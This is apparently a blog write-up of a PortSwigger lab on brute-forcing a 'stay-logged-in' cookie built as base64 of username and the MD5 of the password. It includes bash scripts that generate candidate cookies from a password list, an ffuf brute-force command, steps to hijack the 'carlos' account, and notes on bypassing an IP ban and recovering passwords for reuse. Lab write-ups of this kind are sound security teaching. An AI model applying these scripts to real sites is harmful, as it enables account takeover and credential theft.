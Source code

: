 ```yaml
---
title: "Portswigger Lab: Brute-forcing a stay-logged-in cookie"
date: 2024-09-23T10:59:43-05:00
draft: false
tags: 
- PortSwigger
- Cookies
- Web Security
- Broken Authentication
---
```


### Description
The "Brute-forcing a stay-logged-in cookie" lab by PortSwigger features a web application whose stay-logged-in cookies are vulnerable to attack. 


### Walkthrough
Navigate to the login page under "My account". We will first create a stay-logged-in cookie with the user credentials given to us. Make sure check "Stay logged in".

![Login and enable persistent cookies](/img/portswigger/cookie-brute/stay_logged_in.png)

Now we can copy the cookie to analyze. Hit ```Ctr-Shift-i``` to open the Developer Tools panel and head to the "Storage" section. The value for the "stay-logged-on" field is our cookie.

![Stay-logged-in cookie](/img/portswigger/cookie-brute/stay_logged_in_cookie.png)

The cookie is encoded in base64. Decoding it reveals that it is composed of the our username, ":", and a hash. 

```
┌──(kali㉿kali)-[/tmp]
└─$ echo 'd2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw' | base64 -d                                    
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Given that our username was used as part of the cookie, we can reasonably infer that the hash is based on a predictable value like a timestamp, password, or maybe even the username again. In this case, it's the MD5 hash of our password. We can confirm this by hashing our password using MD5 and verifying it is identical to the hash in our cookie.

```
┌──(kali㉿kali)-[/tmp]
└─$ echo -n 'peter' | md5sum | cut -d ' ' -f1 
51dc30ddc473d43a6011e9ebba6ca770
```

We have now determined that the stay-logged-in cookie is ```username:<password MD5 hash>``` and base64-encoded. Since we have already been given a [list of passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords), we can create a list of potential cookies for ```carlos``` by applying these rules. I provided a script that does this and saves the cookies into ```cookies.txt```.

```shell
#!/bin/bash

# md5 hash -> user:<hash> -> base64 cookie

while read -r line
do
        hash=$(printf "$line" | md5sum | cut -d ' '  -f1)
        cookie=$(printf "carlos:$hash" | base64)
        echo "$cookie" >> cookies.txt
done <<< $(cat pass.txt)
```

Now we can brute force the stay-logged-in cookie for ```carlos```. Logout and start Burp Suite. We are going to login again as ```wiener``` again, but this time we are going to intercept our web requests. Forward the POST request but capture the GET request for your account details.

![Web request](/img/portswigger/cookie-brute/persistent_logon.png)

Copy it and save it into a file. Change the ```id``` query string's value to ```carlos``` and replace the stay-logged-in cookie with ```FUZZ```. Now, we can brute force the cookie.

```
ffuf -request request.txt -request-proto https -mode clusterbomb -w cookies.txt:FUZZ -r
```

We see a change in the webserver's response after supplying one of the cookies.

![Cookie brute force](/img/portswigger/cookie-brute/success.png)

Now we can simply use our cookie to take over  ```carlos```. Once again, we open the developer tools and head to storage > cookies. Right click and add another item with the name as "stay-logged-in" and the value as the cookie we got. 

![Add carlos' cookie](/img/portswigger/cookie-brute/add_cookie.png)

Refresh the page and we are now logged in as ```carlos```.

![Takeover success](/img/portswigger/cookie-brute/carlos_pwned.png)

***
### Beyond Pwn
Note that finding the cookie for ```carlos``` is similar to a password dictionary attack. In this particular though, there is a IP ban for incorrect login attempts. By brute forcing the cookie instead of password, we are able to bypass the IP ban.

Also worth mentioning is that we can also get the ```carlos``` user's password while brute forcing his cookie. 

```shell
#!/bin/bash

# md5 hash -> user:<hash> -> base64 cookie && cookie-password map

while read -r line
do
        hash=$(printf "$line" | md5sum | cut -d ' '  -f1)
        cookie=$(printf "carlos:$hash" | base64)
        echo "$cookie" >> cookies.txt
        echo "$cookie: $line" >> map.txt
done <<< $(cat pass.txt)
```

Once we successfully authenticate with a cookie, we can find its corresponding password through the map.

```
┌──(kali㉿kali)-[/tmp]
└─$ grep 'Y2FybG9zOmVmNmU2NWVmYzE4OGU3ZGZmZDczMzViNjQ2YTg1YTIx' map.txt                    
Y2FybG9zOmVmNmU2NWVmYzE4OGU3ZGZmZDczMzViNjQ2YTg1YTIx: thomas
```

This can be useful when checking for password reuse and may help us access more services in a real engagement.
